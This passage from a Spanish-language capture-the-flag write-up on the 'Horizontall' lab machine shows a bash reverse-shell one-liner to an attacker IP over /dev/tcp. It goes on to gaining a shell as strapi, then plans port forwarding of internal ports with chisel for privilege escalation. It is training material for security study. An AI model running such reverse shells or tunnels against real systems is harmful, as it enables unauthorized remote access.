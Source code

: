 ```shell
bash -c 'bash -i >& /dev/tcp/10.10.14.9/443 0>&1'
```

![](/assets/img/commons/Horizontall/terminal8.png)

de el lado derecho observamos que ya estamos como strapi en la máquina victima solo hacemos tratamiento de la tty y tenemos la primera flag 

![](/assets/img/commons/Horizontall/terminal9.png)

## Privilege Escalation - Post Exploitation 
si buscamos por servicios que esten corriendo en la máquina victima o sea su porpio localhost vemos dos puertos internos que me dan curiosidad , normalmente estos servicios se ejecutan como root , asi que me los voy a traer haciendo un reenvío de puertos con chisel 

![](/assets/img/commons/Horizontall/terminal10.png)

## Port Forwarding with Chisel 

Port Forwarding (Reenvío de Puertos) configura los servicios públicos en la red, con netstat podemos ver que puertos tenemos abiertos en este caso quiero reenviar los puertos abiertos internos de la máquina victima a mi máquina atacante de Kali para esto haremos lo siguiente 

1. Descargamos [chisel](https://github.com/jpillora/chisel)
2. Establecemos un servidor con chisel en nuestra máquina atacante (Kali) donde pondremos el puerto 12345  a escucha y se conecte el cliente que es la máquina victima
3. Pasamos chisel a la máquina victima y establecemos el cliente  para mandar  la conexión a nuestro servidor con los puertos que encontramos en este caso el 1337 y 8000
